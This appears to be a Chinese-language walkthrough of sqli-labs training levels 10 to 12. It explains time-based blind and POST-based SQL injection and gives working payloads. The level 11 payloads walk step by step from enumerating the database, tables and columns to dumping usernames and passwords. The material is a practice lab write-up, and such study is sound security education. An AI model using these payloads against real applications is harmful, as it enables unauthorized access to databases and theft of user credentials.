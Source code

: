 ### less-10

#### 考点：基于时间的盲注

#### 思路：

于第9题一样，双引号闭合

**payload**

```
?id=1" and sleep(3)--+
```



### less-11

#### 考点：POST型，字符型注入

#### 思路：

判断闭合为单引号闭合

**payload**

```
uname=1' order by 2#&passwd=1&submit=Submit	  //判断列数

uname=1' union select 1,database()#&passwd=1&submit=Submit
//爆库名

uname=1' union select 1,group_concat(table_name) from information_schema.tables where table_schema="security" #&passwd=1&submit=Submit		//爆表名

uname=1' union select 1,group_concat(column_name) from information_schema.columns where table_name="users"#&passwd=1&submit=Submit		//爆列名

uname=1' union select 1,group_concat(username,':',password) from users#&passwd=1&submit=Submit		//爆数据
```



### less-12

#### 考点：POST型，字符型注入

#### 思路：

判断闭合为双引号+括号闭合，其他于11题一样

**payload**

```
uname=admin") order by 2#&passwd=1&submit=Submit
```
